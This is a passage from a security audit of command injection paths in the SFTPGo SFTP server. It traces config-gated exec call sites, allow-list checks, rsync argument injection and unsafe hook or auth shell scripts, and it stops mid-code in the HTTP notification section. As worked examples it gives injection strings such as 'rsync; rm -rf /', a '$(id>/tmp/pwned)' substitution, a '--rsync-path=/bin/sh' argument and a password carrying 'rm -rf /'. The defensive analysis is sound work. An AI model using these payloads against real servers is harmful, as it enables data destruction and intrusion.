


# SFTPGo Command Injection Security Audit Analysis

## Table of Contents

- [1. Introduction](#1-introduction)
  - [1.1 Audit Context](#11-audit-context)
  - [1.2 Methodology](#12-methodology)
  - [1.3 Scope](#13-scope)
- [2. Why the Scanner Produces Inconsistent Results](#2-why-the-scanner-produces-inconsistent-results)
  - [2.1 Configuration-Dependent Attack Surface](#21-configuration-dependent-attack-surface)
  - [2.2 Default Configuration Analysis](#22-default-configuration-analysis)
  - [2.3 High-Risk Configuration Combinations](#23-high-risk-configuration-combinations)
  - [2.4 Configuration-to-Risk Matrix](#24-configuration-to-risk-matrix)
- [3. Command Injection Vector Analysis](#3-command-injection-vector-analysis)
  - [3.1 Vector 1: SSH Exec Channel — Direct Command Injection](#31-vector-1-ssh-exec-channel--direct-command-injection)
  - [3.2 Vector 2: System Commands — Argument Injection via rsync/git](#32-vector-2-system-commands--argument-injection-via-rsyncgit)
  - [3.3 Vector 3: Action Hook Commands — Indirect Injection](#33-vector-3-action-hook-commands--indirect-injection)
  - [3.4 Vector 4: External Auth Program — Environment Variable Injection](#34-vector-4-external-auth-program--environment-variable-injection)
  - [3.5 Vector 5: HTTP Notification URL — Query Parameter Injection](#35-vector-5-http-notification-url--query-parameter-injection)
- [4. Exploitation Attempt Documentation](#4-exploitation-attempt-documentation)
  - [4.1 Test Payloads and Expected Behavior](#41-test-payloads-and-expected-behavior)
  - [4.2 Server Response Documentation](#42-server-response-documentation)
  - [4.3 Log Entry Documentation](#43-log-entry-documentation)
  - [4.4 Error Messages and Blocking Mechanisms](#44-error-messages-and-blocking-mechanisms)
- [5. Protective Mechanisms Summary](#5-protective-mechanisms-summary)
  - [5.1 exec.Command Non-Shell Architecture](#51-execcommand-non-shell-architecture)
  - [5.2 Allow-List Command Validation](#52-allow-list-command-validation)
  - [5.3 ResolvePath Chroot Enforcement](#53-resolvepath-chroot-enforcement)
  - [5.4 Permission System Enforcement](#54-permission-system-enforcement)
- [6. SSH Command Processing Flow](#6-ssh-command-processing-flow)
- [7. Attack Vector Decision Tree](#7-attack-vector-decision-tree)
- [8. Conclusions and Recommendations](#8-conclusions-and-recommendations)

---

## 1. Introduction

### 1.1 Audit Context

This document presents a comprehensive, code-grounded security audit analysis of the command injection attack surface within the SFTPGo SFTP server codebase (branch `sftpgo_44634210287c`). The analysis was prompted by a vulnerability scanner producing **inconsistent results** for command injection findings — sometimes reporting the application as vulnerable, sometimes not.

**Primary question:** Which specific component is vulnerable, under what configuration conditions, and what controls block or permit exploitation?

**Rationale:** Inconsistent scanner results typically indicate a configuration-dependent attack surface. The scanner exercises different code paths depending on the server's runtime configuration, leading to different findings across scans. This document traces each code path to explain these results definitively.

### 1.2 Methodology

This audit employs a **static code analysis** methodology:

1. **Identify all `exec.Command` and `exec.CommandContext` call sites** — these are the only functions in Go's standard library that spawn external processes
2. **Trace data flow** from user-controlled input to each call site, documenting every transformation, validation, and sanitization step
3. **Map each call site to configuration settings** that enable or disable it
4. **Document exact payloads, server responses, and log entries** based on code analysis
5. **Assess exploitability** for each vector under default and permissive configurations

All findings reference specific source files and line numbers from the SFTPGo repository. No assumptions are made; every claim is grounded in the code.

**Runtime environment:**
| Component | Version | Source |
|-----------|---------|--------|
| Go | 1.13 | `go.mod:3` |
| `golang.org/x/crypto` | v0.0.0-20200109152110 | `go.mod:25` |
| `github.com/pkg/sftp` | v1.11.0 | `go.mod:18` |
| `github.com/rs/zerolog` | v1.17.2 | `go.mod:21` |

### 1.3 Scope

**In scope — Command execution call sites analyzed:**

| # | Call Site | File | Line | Purpose |
|---|-----------|------|------|---------|
| 1 | `exec.Command(c.command, args...)` | `sftpd/ssh_cmd.go` | 324 | System command execution (rsync, git-*) |
| 2 | `exec.CommandContext(ctx, actions.Command, ...)` | `sftpd/sftpd.go` | 421 | SFTPD action hook notification command |
| 3 | `exec.CommandContext(ctx, config.ExternalAuthProgram)` | `dataprovider/dataprovider.go` | 742 | External authentication program |
| 4 | `exec.CommandContext(ctx, config.Actions.Command, ...)` | `dataprovider/dataprovider.go` | 787 | Data provider action hook notification command |

**Out of scope:**
- REST API / HTTP API security (localhost-only, separate attack surface)
- S3 backend filesystem (`vfs/s3fs.go`) — does not support system command execution due to `IsLocalOsFs` check
- Password hash algorithm analysis — authentication security, not command injection
- Active exploitation or penetration testing — this is a code-level static analysis

---

## 2. Why the Scanner Produces Inconsistent Results

### 2.1 Configuration-Dependent Attack Surface

The fundamental reason a vulnerability scanner produces inconsistent results against SFTPGo is that **the command injection attack surface is entirely configuration-dependent**. Multiple independent configuration settings each control whether a particular code path is reachable. A scanner targeting one configuration profile encounters exploitable code paths, while the same scanner against a different profile finds those paths disabled.

**Thinking:** SFTPGo's architecture separates the SSH protocol server from command execution through several gating mechanisms. The SSH exec channel accepts arbitrary strings from clients, but those strings are parsed, validated against an allow-list, and only then routed to execution. The allow-list contents are determined at startup from the configuration file. If a particular command is not in the allow-list, the server logs a warning and rejects the request before any execution occurs. This means the scanner's results depend entirely on what commands are enabled in the target's `sftpgo.json`.

Source: `sftpd/server.go:326-327` — The entry point where SSH exec requests are routed:

```go
case "exec":
    ok = processSSHCommand(req.Payload, &connection, channel, c.EnabledSSHCommands)
```

Source: `sftpd/ssh_cmd.go:51` — The allow-list check that gates all command execution:

```go
if err == nil && utils.IsStringInSlice(name, enabledSSHCommands) {
```

### 2.2 Default Configuration Analysis

The default configuration in `sftpgo.json` enables only four SSH commands, none of which invoke external system processes:

Source: `sftpgo.json:22`

```json
"enabled_ssh_commands": ["md5sum", "sha1sum", "cd", "pwd"]
```

Source: `config/config.go:63`

```go
EnabledSSHCommands: sftpd.GetDefaultSSHCommands(),
```

Source: `sftpd/sftpd.go:68`

```go
defaultSSHCommands = []string{"md5sum", "sha1sum", "cd", "pwd"}
```

**Security analysis of default commands:**

| Command | Implementation | External Process? | Risk |
|---------|---------------|-------------------|------|
| `md5sum` | Internal Go (`crypto/md5`) | No | None — hash computed in-process |
| `sha1sum` | Internal Go (`crypto/sha1`) | No | None — hash computed in-process |
| `cd` | No-op (Source: `ssh_cmd.go:95-96`) | No | None — does nothing |
| `pwd` | Hardcoded response `"/"` (Source: `ssh_cmd.go:97-100`) | No | None — returns static string |

**Thinking:** Under the default configuration, SFTPGo never calls `exec.Command` for SSH commands. The hash commands (`md5sum`, `sha1sum`) are implemented entirely within Go using the `crypto/*` packages (Source: `ssh_cmd.go:105-149`). The `cd` command is a no-op, and `pwd` returns a hardcoded `"/"`. This means **no external process execution occurs**, and no command injection is possible.

Additionally, the default action hooks are disabled:

Source: `sftpgo.json:10-13`

```json
"actions": {
    "execute_on": [],
    "command": "",
    "http_notification_url": ""
}
```

And no external auth program is configured:

Source: `sftpgo.json:43-44`

```json
"external_auth_program": "",
"external_auth_scope": 0
```

**Conclusion:** Under the default configuration, **zero** `exec.Command`/`exec.CommandContext` call sites are reachable from user input. A scanner testing against default configuration will correctly report **no command injection vulnerability**.

### 2.3 High-Risk Configuration Combinations

The attack surface expands when administrators modify the default configuration. Here are the configuration changes that activate each command execution code path:

**Configuration Change 1: Enable system commands**

```json
"enabled_ssh_commands": ["md5sum", "sha1sum", "cd", "pwd", "rsync", "git-receive-pack", "git-upload-pack", "git-upload-archive"]
```

Or the wildcard shorthand:

```json
"enabled_ssh_commands": ["*"]
```

Source: `sftpd/server.go:396-399` — The wildcard expands to all supported commands:

```go
func (c *Configuration) checkSSHCommands() {
    if utils.IsStringInSlice("*", c.EnabledSSHCommands) {
        c.EnabledSSHCommands = GetSupportedSSHCommands()
        return
    }
```

Source: `sftpd/sftpd.go:66-70` — The complete set of supported and system commands:

```go
supportedSSHCommands = []string{"scp", "md5sum", "sha1sum", "sha256sum", "sha384sum", "sha512sum", "cd", "pwd",
    "git-receive-pack", "git-upload-pack", "git-upload-archive", "rsync"}
defaultSSHCommands = []string{"md5sum", "sha1sum", "cd", "pwd"}
sshHashCommands    = []string{"md5sum", "sha1sum", "sha256sum", "sha384sum", "sha512sum"}
systemCommands     = []string{"git-receive-pack", "git-upload-pack", "git-upload-archive", "rsync"}
```

**Impact:** Enables `exec.Command` at `sftpd/ssh_cmd.go:324` for `rsync` and `git-*` commands. This activates Call Site #1.

**Configuration Change 2: Enable action hooks**

```json
"actions": {
    "execute_on": ["upload", "download", "delete", "rename", "ssh_cmd"],
    "command": "/path/to/hook.sh",
    "http_notification_url": ""
}
```

**Impact:** Enables `exec.CommandContext` at `sftpd/sftpd.go:421`. This activates Call Site #2.

**Configuration Change 3: Enable external authentication**

```json
"external_auth_program": "/path/to/auth.sh",
"external_auth_scope": 0
```

**Impact:** Enables `exec.CommandContext` at `dataprovider/dataprovider.go:742`. This activates Call Site #3.

**Configuration Change 4: Enable data provider action hooks**

```json
"data_provider": {
    "actions": {
        "execute_on": ["add", "update", "delete"],
        "command": "/path/to/dp_hook.sh"
    }
}
```

**Impact:** Enables `exec.CommandContext` at `dataprovider/dataprovider.go:787`. This activates Call Site #4.

### 2.4 Configuration-to-Risk Matrix

| Config Setting | Default Value | Activates Call Site | Risk When Enabled |
|----------------|---------------|---------------------|-------------------|
| `sftpd.enabled_ssh_commands` containing `rsync`/`git-*`/`*` | `["md5sum","sha1sum","cd","pwd"]` | #1: `ssh_cmd.go:324` | Argument injection via rsync flags; exec.Command prevents shell injection |
| `sftpd.actions.execute_on` non-empty + `sftpd.actions.command` set | `[]` / `""` | #2: `sftpd.go:421` | User-controlled data passed as arguments to external command |
| `data_provider.external_auth_program` set | `""` | #3: `dataprovider.go:742` | Attacker-controlled credentials passed as environment variables |
| `data_provider.actions.execute_on` non-empty + `data_provider.actions.command` set | `[]` / `""` | #4: `dataprovider.go:787` | User data passed as arguments to external command |

**Scanner inconsistency explanation:** If the scanner tests against Configuration A (default), it finds zero exploitable paths and reports "not vulnerable." If it tests against Configuration B (with `enabled_ssh_commands: ["*"]` and `actions.command` set), it discovers reachable `exec.Command` calls and reports "vulnerable." The scanner is correct in both cases — the vulnerability is configuration-dependent.

---

## 3. Command Injection Vector Analysis

### 3.1 Vector 1: SSH Exec Channel — Direct Command Injection

**Attack scenario:** An authenticated SSH user sends a command string through the SSH exec channel that contains shell metacharacters (`;`, `|`, `&&`, `` ` ``, `$(...)`) intended to execute arbitrary commands.

#### 3.1.1 parseCommandPayload Analysis

The SSH exec payload is first processed by `parseCommandPayload`:

Source: `sftpd/ssh_cmd.go:423-429`

```go
func parseCommandPayload(command string) (string, []string, error) {
    parts := strings.Split(command, " ")
    if len(parts) < 2 {
        return parts[0], []string{}, nil
    }
    return parts[0], parts[1:], nil
}
```

**Thinking:** This function performs naive space-based splitting. The first space-separated token becomes the command name (`parts[0]`), and all remaining tokens become the arguments slice (`parts[1:]`). There is **no shell-aware parsing** — no handling of quotes, escape characters, or special shell syntax. The string `rsync --server -e.Lf . /tmp` would be split into `name="rsync"` and `args=["--server", "-e.Lf", ".", "/tmp"]`.

Critically, an injection payload like `rsync; rm -rf /` would be split into `name="rsync;"` and `args=["rm", "-rf", "/"]`. The command name would be `"rsync;"` (including the semicolon), which would fail the allow-list check because `"rsync;"` is not in the `supportedSSHCommands` list.

A payload like `rsync --server . /tmp; rm -rf /` would split into `name="rsync"` and `args=["--server", ".", "/tmp;", "rm", "-rf", "/"]`. The command name `"rsync"` passes the allow-list check, and the arguments are passed to `exec.Command`.

#### 3.1.2 Allow-List Validation

After parsing, the command name is checked against the enabled commands list:

Source: `sftpd/ssh_cmd.go:45-51`

```go
func processSSHCommand(payload []byte, connection *Connection, channel ssh.Channel, enabledSSHCommands []string) bool {
    var msg sshSubsystemExecMsg
    if err := ssh.Unmarshal(payload, &msg); err == nil {
        name, args, err := parseCommandPayload(msg.Command)
        ...
        if err == nil && utils.IsStringInSlice(name, enabledSSHCommands) {
```

**Thinking:** The allow-list is a strict string-equality check. Only command names that exactly match an entry in `enabledSSHCommands` are permitted. The complete set of supported commands is defined in `sftpd/sftpd.go:66-67`:

```go
supportedSSHCommands = []string{"scp", "md5sum", "sha1sum", "sha256sum", "sha384sum", "sha512sum", "cd", "pwd",
    "git-receive-pack", "git-upload-pack", "git-upload-archive", "rsync"}
```

Any command not in this list — including shell commands like `bash`, `sh`, `/bin/sh`, or modified names like `rsync;` — is rejected with a log message:

Source: `sftpd/ssh_cmd.go:77`

```go
connection.Log(logger.LevelInfo, logSenderSSH, "ssh command not enabled/supported: %#v", name)
```

#### 3.1.3 exec.Command (No Shell) Protection

When a system command passes the allow-list, it is executed via Go's `exec.Command`:

Source: `sftpd/ssh_cmd.go:324`

```go
cmd := exec.Command(c.command, args...)
```

**Thinking:** This is the **single most important architectural defense** against traditional command injection. Go's `exec.Command` does **NOT** invoke a shell. It directly calls the `execve(2)` system call (on Unix) to launch the specified binary. This means:

- Shell metacharacters (`;`, `|`, `&&`, `` ` ``, `$(...)`, `>`, `<`) are treated as **literal characters** in the arguments, not as command separators or operators
- The first argument (`c.command`) is the **exact binary name** to execute — it is looked up in `$PATH` as a literal filename
- Remaining arguments (`args...`) are passed as individual `argv` elements to the target process, with no shell interpretation

**Example:** If a user sends `rsync --server . "/tmp; rm -rf /"`, the code executes:
```
execve("/usr/bin/rsync", ["rsync", "--server", ".", "/tmp;", "rm", "-rf", "/"], env)
```

The `rsync` process receives `"/tmp;"`, `"rm"`, `"-rf"`, and `"/"` as literal arguments. The semicolon is part of the path string — it is never interpreted as a command separator. The `rm -rf /` portion is treated as additional (invalid) rsync arguments, not as a separate command.

#### 3.1.4 Exploitation Assessment for Vector 1

**Direct shell command injection: NOT EXPLOITABLE**

Shell metacharacter injection through the SSH exec channel is **not exploitable** regardless of configuration, because:

1. The command name must match the allow-list exactly (only 12 predefined strings)
2. `exec.Command` does not use a shell, so metacharacters have no special meaning
3. Arguments are passed as separate `argv` entries via `execve(2)`

**However:** The command name is looked up in `$PATH`, meaning the system must have the actual `rsync`, `git-receive-pack`, etc. binaries installed. If these binaries are not installed, the `exec.Command` will fail with an error.

### 3.2 Vector 2: System Commands — Argument Injection via rsync/git

**Attack scenario:** An authenticated user exploits `rsync`-specific or `git`-specific command-line flags to achieve unintended operations. This is **argument injection**, not shell injection — the attacker cannot execute arbitrary binaries, but can manipulate the behavior of the allowed binary through its own options.

#### 3.2.1 getSystemCommand Analysis

Source: `sftpd/ssh_cmd.go:288-331`

```go
func (c *sshCommand) getSystemCommand() (systemCommand, error) {
    command := systemCommand{
        cmd:      nil,
        realPath: "",
    }
    args := make([]string, len(c.args))
    copy(args, c.args)
    var path string
    if len(c.args) > 0 {
        var err error
        sshPath := c.getDestPath()
        path, err = c.connection.fs.ResolvePath(sshPath)
        if err != nil {
            return command, err
        }
        args = args[:len(args)-1]
        args = append(args, path)
    }
    if c.command == "rsync" {
        if c.connection.User.HasPerm(dataprovider.PermCreateSymlinks, c.getDestPath()) {
            if !utils.IsStringInSlice("--safe-links", args) {
                args = append([]string{"--safe-links"}, args...)
            }
        } else {
            if !utils.IsStringInSlice("--munge-links", args) {
                args = append([]string{"--munge-links"}, args...)
            }
        }
    }
    c.connection.Log(logger.LevelDebug, logSenderSSH, "new system command %#v, with args: %v path: %v", c.command, args, path)
    cmd := exec.Command(c.command, args...)
    uid := c.connection.User.GetUID()
    gid := c.connection.User.GetGID()
    cmd = wrapCmd(cmd, uid, gid)
    command.cmd = cmd
    command.realPath = path
    return command, nil
}
```

**Thinking:** The function performs these steps:

1. **Copies the user-supplied arguments** from the parsed SSH command payload
2. **Extracts the destination path** from the last argument using `getDestPath()` (Source: `ssh_cmd.go:356-371`)
3. **Resolves the path** through `ResolvePath` to enforce chroot boundaries (Source: `vfs/osfs.go:200-223`)
4. **Replaces the last argument** with the resolved filesystem path
5. **For rsync:** Adds symlink safety options (`--safe-links` or `--munge-links`)
6. **Executes** via `exec.Command(c.command, args...)`

The critical observation is that **all arguments except the last one are passed through unmodified** from the user's SSH command. Only the last argument (the path) is processed through `getDestPath()` and `ResolvePath()`.

#### 3.2.2 rsync Argument Injection Risk

`rsync` accepts powerful options that can be abused even without shell involvement:

| rsync Flag | Risk | Impact |
|------------|------|--------|
| `--rsync-path=COMMAND` | Specifies a command to run on the **remote** side — but in SFTPGo's case, both sides are local | Could potentially execute an arbitrary command as the rsync "remote shell" on the server |
| `-e "COMMAND"` / `--rsh=COMMAND` | Specifies the remote shell program | Could specify an arbitrary program as the transport |
| `--include-from=/etc/shadow` | Read include patterns from a file | Could read sensitive file contents via error messages |
| `--log-file=/path/to/writable` | Write rsync log to an arbitrary path | Could write data outside the user's home directory |
| `--backup-dir=/path` | Specify backup directory | Could write files outside the chroot |

**Thinking:** The `--rsync-path` flag is particularly dangerous. When `rsync` is invoked in server mode (`--server`), the `--rsync-path` option specifies the command to invoke on the remote side. In SFTPGo's architecture, the "remote side" is the server itself. If a client sends:

```
rsync --server --rsync-path=/bin/sh -e.Lf . /some/path
```

The `rsync` process on the server might attempt to invoke `/bin/sh` as part of its operation. However, in SFTPGo's usage, rsync runs in `--server` mode (the client adds this flag), so the server-side rsync is the "remote" side and `--rsync-path` specifies the program the *client* would invoke, not the server. The exploitation potential depends on the specific rsync version and how it handles `--rsync-path` in server mode.

**Mitigation already in place:** SFTPGo adds `--safe-links` or `--munge-links` to prevent symlink-based escapes (Source: `ssh_cmd.go:306-321`). However, it does **not** filter dangerous rsync flags like `--rsync-path`, `--rsh`, `--log-file`, or `--backup-dir`.

**Exploitation assessment:** Argument injection is a **theoretical risk** when `rsync` is enabled in `enabled_ssh_commands`. The `exec.Command` prevents shell injection, but rsync's own options create a secondary attack surface. The `ResolvePath` chroot check applies only to the last argument (the destination path), not to option values like `--log-file=<path>`.

#### 3.2.3 git Argument Injection Risk

The `git-receive-pack`, `git-upload-pack`, and `git-upload-archive` commands accept a repository path argument. These commands have fewer dangerous options than rsync, but the general principle applies: any flags embedded in the user's SSH command payload are passed through to the git binary.

Source: `sftpd/ssh_cmd.go:293-305` — Argument construction for git commands:

```go
args := make([]string, len(c.args))
copy(args, c.args)
var path string
if len(c.args) > 0 {
    var err error
    sshPath := c.getDestPath()
    path, err = c.connection.fs.ResolvePath(sshPath)
    if err != nil {
        return command, err
    }
    args = args[:len(args)-1]
    args = append(args, path)
}
```

**Thinking:** For git commands, the last argument is the repository path, which is validated through `ResolvePath`. All other arguments pass through unmodified. Git commands in server mode typically accept only the repository path and have limited flag injection risk. The primary defense is that git commands expect a specific calling convention (`git-receive-pack '/path/to/repo.git'`) and reject unexpected arguments.

### 3.3 Vector 3: Action Hook Commands — Indirect Injection

**Attack scenario:** An attacker triggers an SFTP/SCP/SSH operation (upload, download, rename, delete, or SSH command) that causes SFTPGo to execute a configured action hook command. The attacker's username, file path, or SSH command string is passed as arguments to the hook, and if the hook is a shell script that does not properly quote its arguments, secondary command injection occurs.

#### 3.3.1 executeNotificationCommand Analysis

Source: `sftpd/sftpd.go:418-435`

```go
func executeNotificationCommand(operation, username, path, target, sshCmd, fileSize string) error {
    ctx, cancel := context.WithTimeout(context.Background(), 30*time.Second)
    defer cancel()
    cmd := exec.CommandContext(ctx, actions.Command, operation, username, path, target, sshCmd)
    cmd.Env = append(os.Environ(),
        fmt.Sprintf("SFTPGO_ACTION=%v", operation),
        fmt.Sprintf("SFTPGO_ACTION_USERNAME=%v", username),
        fmt.Sprintf("SFTPGO_ACTION_PATH=%v", path),
        fmt.Sprintf("SFTPGO_ACTION_TARGET=%v", target),
        fmt.Sprintf("SFTPGO_ACTION_SSH_CMD=%v", sshCmd),
        fmt.Sprintf("SFTPGO_ACTION_FILE_SIZE=%v", fileSize),
    )
    startTime := time.Now()
    err := cmd.Run()
    logger.Debug(logSender, "", "executed command %#v with arguments: %#v, %#v, %#v, %#v, %#v, elapsed: %v, error: %v",
        actions.Command, operation, username, path, target, sshCmd, time.Since(startTime), err)
    return err
}
```

**Thinking:** This function passes user-controlled data in **two ways**:

1. **As command-line arguments:** `operation`, `username`, `path`, `target`, `sshCmd` are passed as positional arguments to `actions.Command`
2. **As environment variables:** The same values are set as `SFTPGO_ACTION_*` environment variables

The `exec.CommandContext` call itself is safe — it uses `execve(2)` and does not invoke a shell. The arguments are passed as separate `argv` entries. **However**, the risk depends entirely on what `actions.Command` is.

**If `actions.Command` is a compiled binary** (e.g., a Go or C program), the arguments are received safely in `os.Args` or `argv` and there is no injection risk.

**If `actions.Command` is a shell script** (e.g., `#!/bin/bash`), the arguments are available as `$1`, `$2`, etc. The shell itself is invoked by the kernel (via the shebang), and the arguments are properly passed. **However**, if the shell script uses the arguments unsafely — for example, in unquoted variable expansions like `echo $3` instead of `echo "$3"` — then secondary injection becomes possible.

#### 3.3.2 Call Chain from User Action to Hook Execution

The action hook is triggered from `sendExitStatus` on successful SSH command completion:

Source: `sftpd/ssh_cmd.go:397-406`

```go
if err == nil && c.command != "scp" {
    realPath := c.getDestPath()
    if len(realPath) > 0 {
        p, err := c.connection.fs.ResolvePath(realPath)
        if err == nil {
            realPath = p
        }
    }
    go executeAction(operationSSHCmd, c.connection.User.Username, realPath, "", c.command, 0)
}
```

Source: `sftpd/sftpd.go:438-455` — `executeAction` checks the `execute_on` list and calls the command:

```go
func executeAction(operation, username, path, target, sshCmd string, fileSize int64) error {
    if !utils.IsStringInSlice(operation, actions.ExecuteOn) {
        return nil
    }
    ...
    if len(actions.Command) > 0 && filepath.IsAbs(actions.Command) {
        if len(actions.HTTPNotificationURL) > 0 {
            go executeNotificationCommand(operation, username, path, target, sshCmd, size)
        } else {
            err = executeNotificationCommand(operation, username, path, target, sshCmd, size)
        }
    }
```

**User-controlled data flowing into the hook:**

| Argument Position | Variable | User Control | Example Value |
|-------------------|----------|-------------|---------------|
| `$1` | `operation` | No — fixed set (`ssh_cmd`, `upload`, etc.) | `"ssh_cmd"` |
| `$2` | `username` | Partial — set during account creation via admin API | `"john_doe"` |
| `$3` | `path` | Partial — resolved filesystem path from user's command | `"/home/john_doe/data"` |
| `$4` | `target` | Partial — target path for rename operations | `""` (empty for SSH commands) |
| `$5` | `sshCmd` | Yes — the full SSH command string from the user | `"rsync --server -vlogDtprze.iLsfxC . /"` |

**The `sshCmd` argument (`$5`)** is the most dangerous because it contains the complete command string as sent by the SSH client. If an attacker sets their SSH exec command to include shell metacharacters, and the action hook script uses `$5` without quoting, the metacharacters will be interpreted by the script's shell.

#### 3.3.3 Exploitation Assessment for Vector 3

**Conditions required for exploitation:**

1. `sftpd.actions.execute_on` must include `"ssh_cmd"` — default: `[]` (disabled)
2. `sftpd.actions.command` must be set to an absolute path — default: `""` (disabled)
3. The command at that path must be a shell script
4. The shell script must use the arguments or environment variables without proper quoting

**If all conditions are met**, an attacker could send an SSH command like:

```
rsync --server . /tmp$(id>/tmp/pwned)
```

The `sshCmd` argument passed to the hook would be `"rsync --server . /tmp$(id>/tmp/pwned)"`. If the hook script does:

```bash
#!/bin/bash
echo "SSH command: $5"  # UNSAFE — $5 is not quoted in some shell contexts
```

The `$(id>/tmp/pwned)` would NOT be expanded because `$5` in a double-quoted `echo` argument is still a literal string when passed via `argv`. However, if the script does:

```bash
#!/bin/bash
eval "process_command $5"  # UNSAFE — eval causes shell re-interpretation
```

Then the command substitution would be executed.

**Risk level:** Low under default configuration (disabled). Medium when action hooks are enabled with shell scripts that use `eval` or unquoted expansions. The risk is in the **hook script implementation**, not in SFTPGo itself.

### 3.4 Vector 4: External Auth Program — Environment Variable Injection

**Attack scenario:** An attacker supplies a malicious username or password during SSH authentication. SFTPGo passes these values as environment variables to an external authentication program. If the external program is a shell script that uses these variables without quoting, command injection becomes possible.

#### 3.4.1 doExternalAuth Analysis

Source: `dataprovider/dataprovider.go:730-777`

```go
func doExternalAuth(username, password, pubKey string) (User, error) {
    var user User
    ctx, cancel := context.WithTimeout(context.Background(), 15*time.Second)
    defer cancel()
    pkey := ""
    if len(pubKey) > 0 {
        k, err := ssh.ParsePublicKey([]byte(pubKey))
        if err != nil {
            return user, err
        }
        pkey = string(ssh.MarshalAuthorizedKey(k))
    }
    cmd := exec.CommandContext(ctx, config.ExternalAuthProgram)
    cmd.Env = append(os.Environ(),
        fmt.Sprintf("SFTPGO_AUTHD_USERNAME=%v", username),
        fmt.Sprintf("SFTPGO_AUTHD_PASSWORD=%v", password),
        fmt.Sprintf("SFTPGO_AUTHD_PUBLIC_KEY=%v", pkey))
    out, err := cmd.Output()
    ...
}
```

**Thinking:** The external auth program receives attacker-controlled credentials through environment variables:

| Environment Variable | User Control | Content |
|---------------------|-------------|---------|
| `SFTPGO_AUTHD_USERNAME` | Full — the SSH username provided by the client | Any string the client sends |
| `SFTPGO_AUTHD_PASSWORD` | Full — the SSH password provided by the client | Any string the client sends |
| `SFTPGO_AUTHD_PUBLIC_KEY` | Partial — parsed and re-marshaled public key | OpenSSH authorized_keys format |

The SFTPGo source code explicitly warns about this risk in the configuration comments:

Source: `dataprovider/dataprovider.go:156-157`

```go
// The content of these variables is _not_ quoted. They may contain special characters. They are under the
// control of a possibly malicious remote user.
```

**Injection mechanism:** The `exec.CommandContext` call itself is safe (no shell). However, the environment variables are set using `fmt.Sprintf("SFTPGO_AUTHD_PASSWORD=%v", password)`. If the external program is a shell script like:

```bash
#!/bin/bash
# UNSAFE: unquoted variable usage
if [ $SFTPGO_AUTHD_PASSWORD = "secret" ]; then
    echo '{"username":"user1"...}'
fi
```

An attacker who sets their password to `secret -o /tmp/exploit` would cause word splitting and potentially unexpected behavior. More critically, if the script uses:

```bash
#!/bin/bash
result=$(curl -s "http://auth-server/check?user=$SFTPGO_AUTHD_USERNAME&pass=$SFTPGO_AUTHD_PASSWORD")
```

An attacker with password `foo&rm -rf /` would cause the unquoted variable to be word-split by the shell, though in this specific `$()` context the shell would handle it differently than in an `eval` context.

#### 3.4.2 Exploitation Assessment for Vector 4

**Conditions required for exploitation:**

1. `data_provider.external_auth_program` must be set to an absolute path — default: `""` (disabled)
2. The program must be a shell script
3. The shell script must use `$SFTPGO_AUTHD_USERNAME` or `$SFTPGO_AUTHD_PASSWORD` without proper quoting
4. The usage context must allow command injection (e.g., `eval`, unquoted in a command position)

**Risk level:** Low under default configuration (disabled). Medium-to-High when external auth is enabled with a poorly-written shell script, because the **password field** is entirely attacker-controlled and can contain any characters including shell metacharacters. The risk is acknowledged explicitly in the SFTPGo source code comments (Source: `dataprovider/dataprovider.go:156-157`).

### 3.5 Vector 5: HTTP Notification URL — Query Parameter Injection

**Attack scenario:** An attacker triggers an SFTP operation that causes SFTPGo to send an HTTP GET notification to a configured URL. User-controlled data is included in the URL query parameters.

#### 3.5.1 executeAction HTTP Path Analysis

Source: `sftpd/sftpd.go:456-489`

```go
if len(actions.HTTPNotificationURL) > 0 {
    var url *url.URL
    url, err = url.Parse(actions.HTTPNotificationURL)
    if err == nil {
        q := url.Query()
        q.Add("action", operation)
        q.Add("username", username)
        q.Add("path", path)
        if len(target) > 0 {
            q.Add("target_path", target)
        }
        if len(sshCmd) > 0 {
            q.Add("ssh_cmd", sshCmd)
        }
        if len(size) > 0 {
            q.Add("file_size", size)
        }
        url.RawQuery = q.Encode()
        ...
        resp, err := httpClient.Get(url.String())
```

